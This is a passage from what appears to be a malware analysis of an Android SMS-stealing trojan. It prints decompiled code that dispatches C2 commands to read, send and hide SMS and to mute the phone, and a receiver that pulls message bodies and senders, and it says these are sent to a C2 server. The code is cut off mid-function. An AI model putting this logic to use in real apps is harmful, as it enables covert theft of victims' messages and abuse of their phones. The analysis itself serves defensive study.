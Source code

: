```cs
                        if(!ContexStartExtensionsKt.startApp(context3, "com.samsung.android.messaging")) {
                            Context context4 = workerService0.getApplicationContext();
                            Intrinsics.checkNotNullExpressionValue(context4, "workerService.applicationContext");
                            if(!ContexStartExtensionsKt.startApp(context4, "com.android.messaging")) {
                                Context context5 = workerService0.getApplicationContext();
                                Intrinsics.checkNotNullExpressionValue(context5, "workerService.applicationContext");
                                if(!ContexStartExtensionsKt.startApp(context5, "com.google.android.apps.messaging")) {
                                    Context context6 = workerService0.getApplicationContext();
                                    Intrinsics.checkNotNullExpressionValue(context6, "workerService.applicationContext");
                                    ContexStartExtensionsKt.startApp(context6, "com.android.mms");
                                    return;
                                }
                            }
                        }
                    }
                }        
if(Intrinsics.areEqual(s, "getsms")) {
                        ContexStartExtensionsKt.overlay$default(context0, 0, ((Function0)new PingTasks.onPingReceived.3(workerService1)), 0, 5, null);
                        return;}
 if(Intrinsics.areEqual(s, "sendsms")) {
                        ContexStartExtensionsKt.sendSMS(context0, command0.getNumber(), command0.getText());
                        return;}
 if(Intrinsics.areEqual(s, "startmute")) {
                                this.mutePhone(context0);
                                return;
                            }
if(Intrinsics.areEqual(s, "stopmute")) {
                                this.unmutePhone(context0);
                                return;
                            }

```
The malware collect the SMS stored in the victim's device and send it to C2 server. This happens by collecting the body and the address(number) of the SMS message.


```cs
 public void onReceive(Context context0, Intent intent0) {
        try {
            SmsMessage[] arr_smsMessage = Telephony.Sms.Intents.getMessagesFromIntent(intent0);
            Intrinsics.checkNotNullExpressionValue(arr_smsMessage, "smsMessages");
            int v = 0;
            while(true) {
                if(v >= arr_smsMessage.length) {
                    return;
                }

                SmsMessage smsMessage0 = arr_smsMessage[v];
                ++v;
                Intrinsics.checkNotNullExpressionValue(Uri.parse("content://sms"), "parse(\"content://sms\")");
                String s = smsMessage0.getMessageBody();
                Intrinsics.checkNotNullExpressionValue(s, "message.messageBody");
                String s1 = smsMessage0.getOriginatingAddress();
                Intrinsics.checkNotNull(s1);
                Intrinsics.checkNotNullExpressionValue(s1, "message.originatingAddress!!");
```